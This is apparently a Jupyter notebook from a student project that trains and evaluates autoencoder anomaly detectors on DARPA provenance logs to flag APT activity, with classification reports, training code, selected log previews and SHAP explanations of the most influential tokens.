


Classification Report for CADETS (Vanilla):
              precision    recall  f1-score   support

           0     1.0000    0.9949    0.9974     44923
           1     0.0455    1.0000    0.0870        11

    accuracy                         0.9949     44934
   macro avg     0.5227    0.9974    0.5422     44934
weighted avg     0.9998    0.9949    0.9972     44934


🚀 EVALUATING VANILLA AE: CLEARSCOPE
-> Generating Embeddings (9674 train, 2432 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\clearscope_ProcessAll_Baseline.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000071





Classification Report for CLEARSCOPE (Vanilla):
              precision    recall  f1-score   support

           0     0.9988    0.9930    0.9959      2419
           1     0.3704    0.7692    0.5000        13

    accuracy                         0.9918      2432
   macro avg     0.6846    0.8811    0.7479      2432
weighted avg     0.9954    0.9918    0.9932      2432


🚀 EVALUATING VANILLA AE: THEIA
-> Generating Embeddings (223415 train, 55954 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\theia_ProcessAll_Baseline.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000005





Classification Report for THEIA (Vanilla):
              precision    recall  f1-score   support

           0     1.0000    0.9951    0.9976     55854
           1     0.2668    0.9900    0.4204       100

    accuracy                         0.9951     55954
   macro avg     0.6334    0.9926    0.7090     55954
weighted avg     0.9987    0.9951    0.9965     55954


🚀 EVALUATING VANILLA AE: TRACE
-> Generating Embeddings (225645 train, 56458 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_contriever\trace_ProcessAll_Baseline.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000008





Classification Report for TRACE (Vanilla):
              precision    recall  f1-score   support

           0     1.0000    0.9951    0.9976     56412
           1     0.1433    1.0000    0.2507        46

    accuracy                         0.9951     56458
   macro avg     0.5717    0.9976    0.6241     56458
weighted avg     0.9993    0.9951    0.9969     56458



In [7]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import confusion_matrix, classification_report

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']
BASE_WEIGHTS_DIR = r"D:\Waleed FYP\saved_weights_contriever"

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. REDEFINE ARCHITECTURE & HELPER FUNCTIONS
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

def get_reconstruction_errors(model, data_array):
    tensor = torch.FloatTensor(data_array).to(DEVICE)
    with torch.no_grad():
        reconstruction = model(tensor)
        mse = torch.mean((tensor - reconstruction) ** 2, dim=1).cpu().numpy()
    return mse

# ==========================================
# 2. INITIALIZE CONTRIEVER (ONCE GLOBALLY)
# ==========================================
print("🧠 Loading Contriever Model globally (this takes a moment)...")
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
        with torch.inference_mode():
            outputs = embedder(**inputs)
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            emb = sum_embeddings / sum_mask
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
    return np.vstack(all_embs)

# ==========================================
# 3. MASTER EVALUATION LOOP (VANILLA AE)
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*80)
    print(f"🚀 EVALUATING VANILLA AE: {performer.upper()}")
    print("="*80)

    # -- A. Safety Checks --
    if performer not in master_text_data or "ProcessAll" not in master_text_data[performer]:
        print(f"[!] Data for {performer.upper()} not found in master dataset. Skipping.")
        continue
        
    # UPDATED: Loading the Vanilla weights instead of Robust
    weights_path = os.path.join(BASE_WEIGHTS_DIR, f"{performer}_ProcessAll_Baseline.pth")
    if not os.path.exists(weights_path):
        print(f"[!] Weights not found at {weights_path}. Skipping.")
        continue

    # -- B. Load & Split Data --
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- C. Generate Embeddings --
    print(f"-> Generating Embeddings ({len(train_texts)} train, {len(test_texts)} test)...")
    X_train_emb = get_contriever_emb_batch(train_texts)
    X_test_emb = get_contriever_emb_batch(test_texts)

    # -- D. Load Weights --
    input_dim = 768 
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    print(f"-> Loading weights from: {weights_path}")
    autoencoder.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    autoencoder.eval() 

    # -- E. Calculate Errors & Apply Threshold --
    print("-> Calculating anomaly scores...")
    train_errors = get_reconstruction_errors(autoencoder, X_train_emb)
    test_errors = get_reconstruction_errors(autoencoder, X_test_emb)

    threshold = np.percentile(train_errors, 99.5)
    print(f"-> Calculated 99.5% Threshold: {threshold:.6f}")

    predictions = (test_errors > threshold).astype(int)

    # -- F. Plotting & Metrics --
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    plt.title(f"Confusion Matrix: {performer.upper()} Contriever Vanilla AE")
    plt.ylabel('True Label')
    plt.xlabel('Predicted Label')
    plt.show()

    print(f"\nClassification Report for {performer.upper()} (Vanilla):")
    print(classification_report(test_labels, predictions, digits=4))

#### SHAP

In [1]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import gc
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 1. LOAD DATA
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# ==========================================
# 2. DEFINE VANILLA AUTOENCODER MODEL
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        
        # Standard Encoder
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), 
            nn.ReLU(),
            nn.Linear(1024, 256), 
            nn.ReLU()
        )
        
        # Standard Decoder
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), 
            nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
        
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 3. LOOP THROUGH PERFORMERS
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*60)
    print(f"Processing Performer: {performer.upper()} | Context: {TARGET_CONTEXT}")
    
    # Check if performer and context exist in the loaded data
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Warning: Data not found for {performer}. Skipping.")
        continue

    df = master_text_data[performer][TARGET_CONTEXT]

    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'

    # [MEMORY FIX] Drop massive unused columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- STRICT 80/20 SPLIT LOGIC ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]

    train_size = int(0.8 * len(normal_df))

    # Train Set: 80% Normal logs only
    train_texts = normal_df[text_col].tolist()[:train_size]

    # Test Set: Remaining 20% Normal logs + ALL Anomalous logs
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    print(f"Train Set: {len(train_texts)} normal logs")
    print(f"Test Set: {len(test_texts)} logs ({len(anomaly_df)} are anomalies)")

    # ==========================================
    # --- SUPERVISOR'S TF-IDF VECTORIZATION ---
    # ==========================================
    vectorizer = TfidfVectorizer(max_features=None)
    
    # Fit ONLY on training data, then transform training data
    print("-> Fitting TF-IDF on Training Data only...")
    X_train_tfidf = vectorizer.fit_transform(train_texts).toarray()
    
    # Transform test data using the same vocabulary
    print("-> Transforming Test Data...")
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # Show feature names and matrices (Safely printed using shapes to prevent crashing)
    vocab = vectorizer.get_feature_names_out()
    print(f"\nVocabulary Size: {len(vocab)} words learned.")
    print(f"Train TF-IDF matrix shape: {X_train_tfidf.shape}")
    print(f"Test TF-IDF matrix shape:  {X_test_tfidf.shape}")
    
    # UNCOMMENT BELOW IF YOU REALLY WANT TO PRINT THE RAW MATRICES (Warning: Will lag notebook)
    print("=" * 60)
    print("Vocabulary:\n", vocab)
    print("\nTrain TF-IDF matrix:\n", X_train_tfidf)
    print("\nTest TF-IDF matrix:\n", X_test_tfidf)
    print("=" * 60)

    # --- BUILD & TRAIN PYTORCH AUTOENCODER ---
    input_dim = X_train_tfidf.shape[1]
    
    # Initialize the VanillaAE
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    
    # Use standard Mean Squared Error (MSE) for the vanilla architecture
    criterion = nn.MSELoss()

    # [OOM FIX] Keep tensor on CPU, only move batches to GPU
    X_train_tensor = torch.FloatTensor(X_train_tfidf)

    print(f"\nTraining Vanilla PyTorch Autoencoder on {performer.upper()} Train Set...")
    autoencoder.train()
    epochs = 50
    batch_size = 32

    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            
            # [OOM FIX] Move just the small batch to the GPU
            batch_x = X_train_tensor[indices].to(DEVICE)
            
            optimizer.zero_grad()
            reconstruction = autoencoder(batch_x)
            loss = criterion(reconstruction, batch_x)
            loss.backward()
            optimizer.step()
            
            # Free VRAM
            del batch_x
            
    print(f"Training Complete for {performer.upper()}.\n")
    
    # Cleanup memory before moving to the next performer
    del X_train_tfidf, X_test_tfidf, X_train_tensor, autoencoder
    gc.collect()
    torch.cuda.empty_cache()


Processing Performer: 5DIR | Context: ProcessAll
Train Set: 8913 normal logs
Test Set: 2238 logs (9 are anomalies)
-> Fitting TF-IDF on Training Data only...
-> Transforming Test Data...

Vocabulary Size: 699 words learned.
Train TF-IDF matrix shape: (8913, 699)
Test TF-IDF matrix shape:  (2238, 699)
Vocabulary:
 ['00000000000001b4' '00000000000001c4' '0000000000000324'
 '000000000000032c' '0000000000000330' '0000000000000334'
 '0000000000000338' '0000000000000368' '000000000000036c'
 '0000000000000f2c' '0000000000001674' '0000000000001e98' '00000080'
 '000000d0' '00000104' '00000110' '00000114' '000002350d81dcb0'
 '000002350d866200' '000002350d866ac0' '000002350d866e40'
 '000002350d8b4010' '0698799a03e8' '09ca' '0_x64__8wekyb3d8bbwe'
 '0_x64__kzf8qxf38zg5c' '0x384' '0x4' '0x4d0' '0x4e4' '0xffffffff' '10'
 '100' '1001' '101' '102' '1024' '103' '11' '111' '112' '114' '116' '117'
 '118' '12' '120' '123' '12420' '125' '127' '128' '129' '130' '131'
 '133eac4f' '134' '135' '136' '1365' '13

In [2]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import shap
import gc
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 0. INITIALIZE STORAGE DICTIONARIES
# ==========================================
all_performers_shap_values = {}
all_performers_errors = {}
all_performers_test_texts = {}
all_performers_test_labels = {}

# ==========================================
# 1. LOAD DATA
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# ==========================================
# 2. DEFINE VANILLA AUTOENCODER MODEL
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# Wrapper Module for SHAP Anomaly Score
class AnomalyScoreWrapper(nn.Module):
    def __init__(self, model):
        super().__init__()
        self.model = model
    def forward(self, x):
        reconstruction = self.model(x)
        return torch.mean((x - reconstruction) ** 2, dim=1, keepdim=True)

# ==========================================
# 3. THE MASTER LOOP
# ==========================================
for performer in PERFORMERS:
    print("="*70)
    print(f"🚀 PROCESSING PERFORMER: {performer.upper()}")
    print("="*70)
    
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Warning: Data not found for {performer}. Skipping.")
        continue

    df = master_text_data[performer][TARGET_CONTEXT]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'

    # [MEMORY FIX] Drop extra columns to prevent 14GB CPU RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- STRICT 80/20 SPLIT LOGIC ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # --- SUPERVISOR'S TF-IDF VECTORIZATION ---
    vectorizer = TfidfVectorizer(max_features=None)
    
    # Fit ONLY on training data, then transform training data
    print("-> Fitting TF-IDF on Training Data only...")
    X_train_tfidf = vectorizer.fit_transform(train_texts).toarray()
    
    # Transform test data using the same vocabulary
    print("-> Transforming Test Data...")
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # --- BUILD & TRAIN PYTORCH VANILLA AUTOENCODER ---
    input_dim = X_train_tfidf.shape[1]
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    criterion = nn.MSELoss() 

    # [OOM FIX] Keep full tensor on CPU
    X_train_tensor = torch.FloatTensor(X_train_tfidf)

    print(f"1. Training Vanilla Autoencoder...")
    autoencoder.train()
    epochs = 50
    batch_size = 32

    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            
            # [OOM FIX] Move small batch to GPU
            batch_x = X_train_tensor[indices].to(DEVICE)
            
            optimizer.zero_grad()
            reconstruction = autoencoder(batch_x)
            loss = criterion(reconstruction, batch_x)
            loss.backward()
            optimizer.step()
            
            # Free VRAM
            del batch_x

    # --- FAST SHAP CALCULATION & ERROR EXTRACTION ---
    print(f"2. Calculating SHAP & Errors using DeepExplainer...")
    autoencoder.eval()
    error_model = AnomalyScoreWrapper(autoencoder).to(DEVICE)
    error_model.eval()

    bg_limit = min(100, len(X_train_tfidf))
    background_tensor = torch.FloatTensor(X_train_tfidf[:bg_limit]).to(DEVICE)
    test_tensor = torch.FloatTensor(X_test_tfidf).to(DEVICE)

    explainer = shap.DeepExplainer(error_model, background_tensor)
    shap_values_all = explainer.shap_values(test_tensor)

    with torch.no_grad():
        all_errors = error_model(test_tensor).cpu().numpy().flatten()

    # --- STORE RESULTS ---
    all_performers_shap_values[performer] = shap_values_all
    all_performers_errors[performer] = all_errors
    all_performers_test_texts[performer] = test_texts
    all_performers_test_labels[performer] = test_labels
    
    print(f"✅ Finished {performer.upper()}!\n")
    
    # Clean up massive objects before moving to next performer
    del X_train_tfidf, X_test_tfidf, X_train_tensor, test_tensor, autoencoder, error_model
    gc.collect()
    torch.cuda.empty_cache()

print("\n🎉 ALL PROCESSING COMPLETE! Data safely stored for:")
print(list(all_performers_errors.keys()))

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


🚀 PROCESSING PERFORMER: 5DIR
-> Fitting TF-IDF on Training Data only...
-> Transforming Test Data...
1. Training Vanilla Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished 5DIR!

🚀 PROCESSING PERFORMER: CADETS
-> Fitting TF-IDF on Training Data only...
-> Transforming Test Data...
1. Training Vanilla Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished CADETS!

🚀 PROCESSING PERFORMER: CLEARSCOPE
-> Fitting TF-IDF on Training Data only...
-> Transforming Test Data...
1. Training Vanilla Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished CLEARSCOPE!

🚀 PROCESSING PERFORMER: THEIA
-> Fitting TF-IDF on Training Data only...
-> Transforming Test Data...
1. Training Vanilla Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished THEIA!

🚀 PROCESSING PERFORMER: TRACE
-> Fitting TF-IDF on Training Data only...
-> Transforming Test Data...
1. Training Vanilla Autoencoder...
2. Calculating SHAP &

In [3]:
# ==========================================
# CELL: VERIFY AND SUMMARIZE STORED DATA
# ==========================================

print("🗄️ SUMMARY OF ALL STORED DATA 🗄️\n")

# Loop through the keys (performers) in our dictionary
for performer in all_performers_errors.keys():
    
    # Extract the data for the current performer
    errors = all_performers_errors[performer]
    shap_vals = all_performers_shap_values[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # --- Print formatting with Headings ---
    print("=" * 60)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 60)
    
    # 1. Dataset Dimensions
    print(f"Total Test Logs:     {len(texts)}")
    print(f"Total Labels:        {len(labels)} (Normal: {sum(labels == 0)}, Anomaly: {sum(labels == 1)})")
    
    # 2. Reconstruction Errors (MSE) Summary
    print(f"\nReconstruction Errors Array Shape: {errors.shape}")
    print(f"  -> Mean Error: {np.mean(errors):.6f}")
    print(f"  -> Max Error:  {np.max(errors):.6f}")
    print(f"  -> Min Error:  {np.min(errors):.6f}")
    
    # 3. SHAP Values Summary
    # Note: DeepExplainer sometimes returns a list of arrays depending on the PyTorch version, 
    # so we handle both list and numpy array formats here.
    if isinstance(shap_vals, list):
        print(f"\nSHAP Values Shape: {shap_vals[0].shape} (List of arrays)")
    else:
        print(f"\nSHAP Values Shape: {shap_vals.shape}")
        
    print("\n") # Add a little space before the next performer

🗄️ SUMMARY OF ALL STORED DATA 🗄️

🔹 PERFORMER: 5DIR
Total Test Logs:     2238
Total Labels:        2238 (Normal: 2229, Anomaly: 9)

Reconstruction Errors Array Shape: (2238,)
  -> Mean Error: 0.000010
  -> Max Error:  0.000912
  -> Min Error:  0.000000

SHAP Values Shape: (2238, 699, 1)


🔹 PERFORMER: CADETS
Total Test Logs:     44934
Total Labels:        44934 (Normal: 44923, Anomaly: 11)

Reconstruction Errors Array Shape: (44934,)
  -> Mean Error: 0.000003
  -> Max Error:  0.002409
  -> Min Error:  0.000000

SHAP Values Shape: (44934, 267, 1)


🔹 PERFORMER: CLEARSCOPE
Total Test Logs:     2432
Total Labels:        2432 (Normal: 2419, Anomaly: 13)

Reconstruction Errors Array Shape: (2432,)
  -> Mean Error: 0.000014
  -> Max Error:  0.001979
  -> Min Error:  0.000000

SHAP Values Shape: (2432, 281, 1)


🔹 PERFORMER: THEIA
Total Test Logs:     55954
Total Labels:        55954 (Normal: 55854, Anomaly: 100)

Reconstruction Errors Array Shape: (55954,)
  -> Mean Error: 0.000004
  -> Max 

In [13]:
# ==========================================
# CELL 5: Select 5 Normal and 5 Top Anomalies per Performer
# ==========================================
import numpy as np

print("🚨 SELECTING 5 NORMAL AND 5 ANOMALOUS LOGS PER PERFORMER 🚨\n")

# We will store a list of 10 indices for each performer
selected_target_indices = {}

# Set a random seed so your "random" normal logs are the same every time you run this cell
np.random.seed(42) 

for performer in all_performers_errors.keys():
    
    errors = all_performers_errors[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # 1. Isolate indices by ground-truth label
    normal_indices = np.where(labels == 0)[0]
    anomaly_indices = np.where(labels == 1)[0]
    
    # 2. Select TOP 5 Anomalies (Sorted by highest reconstruction error)
    if len(anomaly_indices) > 0:
        anomaly_errors = errors[anomaly_indices]
        # Sort errors descending and grab the top 5
        sorted_relative_idx = np.argsort(anomaly_errors)[::-1]
        top_5_anomaly_idx = anomaly_indices[sorted_relative_idx][:min(5, len(anomaly_indices))]
    else:
        top_5_anomaly_idx = []
        print(f"[!] No ground-truth anomalies found for {performer.upper()}.")
        
    # 3. Select 5 Random Normal logs (for a fair baseline)
    if len(normal_indices) > 0:
        random_5_normal_idx = np.random.choice(
            normal_indices, 
            size=min(5, len(normal_indices)), 
            replace=False
        )
    else:
        random_5_normal_idx = []

    # 4. Combine into a single list of indices
    combined_indices = list(top_5_anomaly_idx) + list(random_5_normal_idx)
    selected_target_indices[performer] = combined_indices
    
    print("=" * 80)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 80)
    print(f"Selected {len(top_5_anomaly_idx)} Anomalies and {len(random_5_normal_idx)} Normals.\n")
    
    # Print a clean preview of what was selected
    for idx in combined_indices:
        lbl_str = "🔴 ANOMALY" if labels[idx] == 1 else "🟢 NORMAL "
        # Truncate text for cleaner console viewing
        display_text = f"{texts[idx][:80]}..." if len(texts[idx]) > 80 else texts[idx]
        print(f" -> [{lbl_str}] Index: {idx:<5} | Loss: {errors[idx]:.6f} | Text: {display_text}")
        
    print("\n")

🚨 SELECTING 5 NORMAL AND 5 ANOMALOUS LOGS PER PERFORMER 🚨

🔹 PERFORMER: 5DIR
Selected 5 Anomalies and 5 Normals.

 -> [🔴 ANOMALY] Index: 2237  | Loss: 0.000912 | Text: Process has event bind and event check_file_attributes and event close and event...
 -> [🔴 ANOMALY] Index: 2233  | Loss: 0.000629 | Text: Process has event accept and event bind and event check_file_attributes and even...
 -> [🔴 ANOMALY] Index: 2235  | Loss: 0.000496 | Text: Process has event accept and event bind and event check_file_attributes and even...
 -> [🔴 ANOMALY] Index: 2230  | Loss: 0.000178 | Text: Process has event check_file_attributes and event close and event create_object ...
 -> [🔴 ANOMALY] Index: 2232  | Loss: 0.000063 | Text: Process has event check_file_attributes and event close and event create_object ...
 -> [🟢 NORMAL ] Index: 56    | Loss: 0.000000 | Text: Process has event check_file_attributes and event close and event create_object ...
 -> [🟢 NORMAL ] Index: 494   | Loss: 0.000001 | Text: Proc

=== GENERATING SHAP TABLES & PLOTS FOR ALL SELECTED SAMPLES (VANILLA AE) ===

████████████████████████████████████████████████████████████████████████████████
🚀 PROCESSING SHAP FOR PERFORMER: 5DIR
████████████████████████████████████████████████████████████████████████████████

🔍 Analyzing [ANOMALY] | Test Index: 2237
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
    Token (Feature Name) SHAP Value (Impact)
          wpnuserservice           -0.000001
                    read           -0.000001
                 sysmain           -0.000001
                     and           -0.000001
                    wbem           -0.000001
                  accept           -0.000001
                wmiprvse           -0.000000
                tightvnc           -0.000000
         officec2rclient           -0.000000
               tvnserver           -0.000000
               attribute           -0.000000
                  defrag           -




🔍 Analyzing [ANOMALY] | Test Index: 2233
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
      wpnuserservice           -0.000001
                read           -0.000001
             sysmain           -0.000001
                 208           -0.000001
                 and           -0.000001
                wbem           -0.000001
              defrag           -0.000000
     officec2rclient           -0.000000
                  17           -0.000000
            wmiprvse           -0.000000
                  90           -0.000000
                 180           -0.000000
                 117           -0.000000
                 213           -0.000000
 appidcertstorecheck           -0.000000
            tightvnc           -0.000000
                 127           +0.000000
                 204           +0.000000
                  67           +0.000001
             network           +0.

